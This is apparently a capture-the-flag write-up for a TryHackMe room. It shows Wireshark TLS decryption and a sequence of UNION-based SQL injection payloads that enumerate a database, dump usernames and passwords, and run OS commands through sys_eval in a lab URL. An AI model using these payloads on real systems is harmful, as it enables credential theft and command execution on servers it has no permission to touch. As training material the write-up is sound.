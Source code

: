 # TryHack3M: Sch3Ma D3Mon

**Room Link:** [https://tryhackme.com/r/room/sch3mad3mon](https://tryhackme.com/r/room/sch3mad3mon)

## A Public Computer with a VPN

goto Edit -> preferences -> protocols -> search for SSL or TLS -> select the ssl-key.log file and hit enter to decrypt the web traffic.



<figure><img src="../../.gitbook/assets/image (1092).png" alt=""><figcaption></figcaption></figure>

**Filter**

```
http contains "Username"
```

<figure><img src="../../.gitbook/assets/image (1093).png" alt=""><figcaption></figcaption></figure>

## Connected Tables

**Filter**

```
' union select 1,2,3,4,5 -- //
```



### Find SQL Version

**Filter**

```
' union select 1,2,3,4,database() -- //
```

<figure><img src="../../.gitbook/assets/image (1095).png" alt=""><figcaption></figcaption></figure>

### Find Tables

**Filter**

```
' union select 1,2,3,4,group_concat(table_name) from information_schema.tables WHERE table_schema = 'mayh3Mmarketplace'; -- //
```

<figure><img src="../../.gitbook/assets/image (1096).png" alt=""><figcaption></figcaption></figure>

### Get fields

**Filter**

```
' union select 1,2,3,4,group_concat(column_name) from information_schema.columns where table_name='users' -- //
```

<figure><img src="../../.gitbook/assets/image (1097).png" alt=""><figcaption></figcaption></figure>

### Get field info

Confirmed we're the only other user.

**Filter**

```
' union select 1,group_concat(username),group_concat(password),3,4 FROM users -- -
```

<figure><img src="../../.gitbook/assets/image (1098).png" alt=""><figcaption></figcaption></figure>

**Filter**

```
' union select 1,2,3,4,group_concat(column_name) from information_schema.columns where table_name='unlisted_products' -- //
```

<figure><img src="../../.gitbook/assets/image (1099).png" alt=""><figcaption></figcaption></figure>

**Filter**

```
' union select null,null,null,null, group_concat(product_name) from unlisted_products -- //
```

<figure><img src="../../.gitbook/assets/image (1100).png" alt=""><figcaption></figcaption></figure>

## From DB to OS

**URL**

```
http://10.10.26.7:8000/os_sqli.php?user=lannister' union SELECT null, null, null, null, sys_eval('whoami') -- //
```

<figure><img src="../../.gitbook/assets/image (1101).png" alt=""><figcaption></figcaption></figure>

**URL**

```
http://10.10.26.7:8000/os_sqli.php?user=lannister%27%20union%20SELECT%20null,%20null,%20null,%20null,%20sys_eval(%27pwd%27)%20--%20//
```

<figure><img src="../../.gitbook/assets/image (1102).png" alt=""><figcaption></figcaption></figure>















